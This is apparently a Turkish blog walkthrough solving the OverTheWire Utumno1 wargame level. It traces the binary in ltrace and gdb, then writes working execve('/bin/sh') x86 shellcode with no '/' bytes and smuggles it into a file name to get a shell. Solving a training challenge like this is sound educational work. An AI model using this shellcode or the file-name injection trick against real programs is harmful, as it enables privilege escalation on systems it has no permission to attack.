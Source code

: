 ```yaml
---
layout: post
title: "Overthewire - Utumno1 Çözümü"
subtitle: "Shellcode mevzuları"
date: 2019-08-20 19:20:13 +0300
background: '/img/posts/bg.png'
---
```


# Overthewire Çözümleri - Utumno1

## İpucu
- Shellcode kurnazlıkları

## Çözüm

Programı çalıştırdığımızda hiçbir çıktı vermiyor. **ltrace** ile çalıştırıp sonuca bakalım.

```
__libc_start_main(0x80484a5, 1, 0xffffd674, 0x8048530 <unfinished ...>
exit(1 <no return ...>
+++ exited (status 1) +++
```

Bir de arguman vererek deneyelim.

```sh
__libc_start_main(0x80484a5, 2, 0xffffd674, 0x8048530 <unfinished ...>
opendir("asd")                                           = 0
exit(1 <no return ...>
+++ exited (status 1) +++
```

Gördüğünüz üzere "asd" dosyasını açmaya çalıştı. Hemen kendimize bir dosya oluşturalım ve orada programı denemeye devam edelim.

```sh
cd `mktemp -d`
ltrace /utumno/utumno1 /tmp/tmp.OIbeV24uHn
```

Çıktı:

```sh
__libc_start_main(0x80484a5, 2, 0xffffd664, 0x8048530 <unfinished ...>
opendir("/tmp/tmp.OIbeV24uHn")                           = 0x804a008
readdir(0x804a008)                                       = 0x804a024
strncmp("sh_", ".", 3)                                   = 69
readdir(0x804a008)                                       = 0x804a034
strncmp("sh_", "..", 3)                                  = 69
readdir(0x804a008)                                       = 0
+++ exited (status 0) +++
```

Gördüğünüz üzere program "sh_" adında bir dosya arıyor. Oluşturalım.

```sh
touch sh_
ltrace /utumno/utumno1 /tmp/tmp.OIbeV24uHn
```

Çıktı:

```sh
...
strncmp("sh_", "sh_", 3)                                 = 0
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

Segmentation fault aldık. Artık **gdb**'ye geçmenin zamanı geldi.

**main** fonksiyonunu disassemble ederek analize başlayalım.

```sh
disas main
```

Çıktı:

```
...
   0x080484f9 <+84>:	mov    eax,DWORD PTR [ebp-0x8]
   0x080484fc <+87>:	add    eax,0xb
   0x080484ff <+90>:	add    eax,0x3
   0x08048502 <+93>:	push   eax
   0x08048503 <+94>:	call   0x804848b <run>
...
```

Run fonksiyonuna bakalım.

```
   0x0804848b <+0>:	push   ebp
   0x0804848c <+1>:	mov    ebp,esp
   0x0804848e <+3>:	sub    esp,0x4
   0x08048491 <+6>:	lea    eax,[ebp-0x4]
   0x08048494 <+9>:	add    eax,0x8
   0x08048497 <+12>:	mov    DWORD PTR [ebp-0x4],eax
   0x0804849a <+15>:	mov    eax,DWORD PTR [ebp-0x4]
   0x0804849d <+18>:	mov    edx,DWORD PTR [ebp+0x8]
   0x080484a0 <+21>:	mov    DWORD PTR [eax],edx
   0x080484a2 <+23>:	nop
   0x080484a3 <+24>:	leave  
   0x080484a4 <+25>:	ret 
```

**run** fonksiyonunda dikkatimi çeken ilk şey register'ların ve stack'in değerlerini değiştirmek dışında hiçbir şey yapılmıyor. Yani program stack'i **ret** çalıştığında return adresinden farklı bir yere dönecek şekilde ayarlıyor olabilir.

Neler olduğunu anlamak için **0x080484fc** ve **0x080484a3** adreslerine 
breakpoint koyup çalıştıralım.

```
break *0x080484fc
break *0x080484a3
r `pwd`
```

İlk breakpoint'ten **run** fonksiyonuna kadar **eax**'in değerlerine bakalım.

```
(gdb) i r eax
eax            0x804a054	134520916
(gdb) x/s $eax
0x804a054:	"\225"
(gdb) ni
0x080484ff	49	in utumno1.c
(gdb) x/s $eax
0x804a05f:	"sh_"
(gdb) ni
0x08048502	49	in utumno1.c
(gdb) x/s $eax
0x804a062:	""
(gdb) 
```

Görüldüğü üzere öncelikle "sh_"'ın, sonrasında da "sh_"'ın 3 karakter sağının adresi **eax**'e atılıyor. Artık **run** fonksiyonuna verilen parametreyi bildiğimize göre devam edelim.

```
(gdb) x/8wx $esp
0xffffd590:	0xffffd598	0xffffd5a8	0x0804a062	0x0804a062
0xffffd5a0:	0x0804a054	0x0804a008	0x00000000	0xf7e2a286
(gdb) ni
0x080484a4	27	in utumno1.c
(gdb) ni
0x0804a062 in ?? ()
```

Aynen tahmin ettiğimiz gibi, program çağrıldığı adrese dönmek yerine
**0x0804a062** adresine dönüyor. Hatırlarsanız ilk breakpoint'te **eax** in değeri **0x804a054** idi. Sonrasında program bu değer üzerine **0xb** ve **0x3** ekliyordu. 

**0x804a054** + **0xb** + **0x3** = **0x804a062**

Demek ki program öncelikle ismi **sh_** ile başlayan bir dosya arıyor, sonra da bu dosyanın adını 3. karakterden itibaren çalıştırıyor. 

O zaman biz de bu dosyanın ismine 3. karakterden itibaren **shellcode** koyup **/bin/sh** ı çalıştırabiliriz.

Çok beğenerek okuduğum "Hacking the art of exploitation" kitabından alıntılayarak shellcode'umuzu anlatacağım.

```
BITS 32

;execve(const char *filename, char *const argv[], char *const envp[]);
xor eax, eax     ; eax'i sıfır yap
push eax         ; stack'e stringi sonlandırmak için \0 at
push 0x68732f2f  ; stack'e "//sh" at
push 0x6e69622f  ; stack'e "/bin" at
mov ebx, esp     ; esp'den "/bin//sh" adresini alıp ebp'e koy
push eax         ; stack'e tekrar 0 at
mov edx, esp     ; envp değişkeni için boş bir array veriyoruz
push ebx         ; string adresini stack'e at
mov ecx, esp     ; argv arrayini ecx'e taşıyoruz
mov al, 11       ; syscall 11
int 0x80
```

Fakat yukarıda gördüğümüz kodu derleyip dosya oluşturmaya çalıştığımızda şu hatayı alıyoruz:

```sh
nasm code
touch sh_`cat nasm.out`
```

Çıktı:

```
touch: cannot touch 'sh_1'$'\300''Ph//shh/bin'$'\211\343''P'$'\211\342''S'$'\211\341\260\v''̀': No such file or directory
```

Bu hatayı almamızın sebebi shellcode'umuzun içerisinde "/" karakteri olması. Bu karakter, bir dosya isminde bulunamaz. Yani öyle bir shellcode yazmalıyız ki, içerisinde "/", yani 16'lık tabanda "2f" bulunmasın.

Bunu çok basit bir yöntemle halledebiliriz. Derlenmiş kodumuzun "/" karakterini barındırmasının sebebi **push 0x68732f2f** ve **push 0x6e69622f** satırları. Biz **2f**'i şu şekilde yazıyla belirtmeden de stack'e koyabiliriz:

```
mov eax, 0x57621e1e
add eax, 0x11111111
push eax
```

Yaptığımız şey **0x68732f2f**'nın **0x11111111** eksiğini **eax**'e atıp sonrasında da **eax**'in değerini **0x11111111** arttırmak, sonra da onu stack'e atmak. Böylece aynı değeri elde etmiş oluyoruz.

Kodun tamamı:

```
BITS 32

xor eax, eax
push eax
mov eax, 0x57621e1e
add eax, 0x11111111
push eax
mov eax, 0x5d58511e
add eax, 0x11111111
push eax
xor eax, eax   ; eax'i tekrardan sıfırladık
mov ebx, esp
push eax
mov edx, esp
push ebx
mov ecx, esp
mov al, 11
int 0x80
```

```sh
nasm code
touch sh_`cat nasm.out`
/utumno/utumno1 /tmp/tmp.OIbeV24uHn
```

Sonuç:

```sh
$ whoami
utumno2
```

Burada da shellcode yazmayı biliyor olmanın önemini gördük. Maalesef düz bir mantıkla yazılan assembly kodları çoğu zaman null karakter dediğimiz **00** karakterini içerdiğinden shellcode yazmak ayrı bir özen gerektiriyor.

## Kaynaklar

Kitap: **Hacking- The Art of Exploitation**
